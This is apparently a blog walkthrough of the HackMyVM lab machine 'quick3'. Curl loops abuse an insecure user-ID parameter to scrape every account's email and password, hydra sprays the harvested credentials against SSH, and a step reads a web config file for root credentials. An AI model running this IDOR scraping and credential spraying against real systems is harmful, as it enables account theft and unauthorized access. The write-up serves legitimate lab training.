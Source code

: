 ```yaml
---
title: "Quick3 - eMVee"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - quick3
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# quick3 - eMVee
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|quick3|
|Author:|[eMVee](https://hackmyvm.eu/profile/?user=eMVee)|
|Release date:|2024-02-19|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=quick3)|
|Level:|Easy|
|System:|linux|
|You'll learn:|Bash scripting|

# 01. Register new user
```bash
export IP=172.16.1.127
curl -d "name=newuser&email=newmail@newmail.com&password=password&register=Register" http://$IP/customer/index.php
```
Registration successful
{: .text-justify}
# 02. Login and get a cookie
```bash
curl -v -d 'email=newmail@newmail.com&password=password&login=Login' 'http://172.16.1.127/customer/login.php'
```
```text
*   Trying 172.16.1.127:80...
* Connected to 172.16.1.127 (172.16.1.127) port 80
> POST /customer/login.php HTTP/1.1
> Host: 172.16.1.127
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 302 Found
< Date: Tue, 20 Feb 2024 00:06:22 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Set-Cookie: PHPSESSID=hab58kcfs74fgp9vtv78i92de5; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< location: dashboard.php
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 172.16.1.127 left intact
```
# 03. Create a list of emails
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="fa-envelope-o"
pattern2=": .*@*<"
pattern3=' :<'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep $pattern1 | grep -o "$pattern2" | tr -d "$pattern3"
done > emails.txt
```
# 04. Create a list of passwords
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="oldpassword\" value="
pattern2="value=\".*\""
pattern3='s/value=//g; s/"//g'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep "$pattern1" | grep -o "$pattern2" | sed "$pattern3"
done > passwords.txt
```
# 05. Create a list of the type user:pass
```bash
paste emails.txt passwords.txt | sed 's/@.*hmv/:/' | tr -d ' \t' > user_pass.txt
cat user_pass.txt | awk -F'[.:]' {'print $1":"$NF'} > user_pass2.txt
```
# 06. Find the password for the SSH user
```bash
hydra -V -C user_pass2.txt ssh://$IP
```
# 07. Find the password for the root user
```bash
bash
cat /var/www/html/customer/config.php
```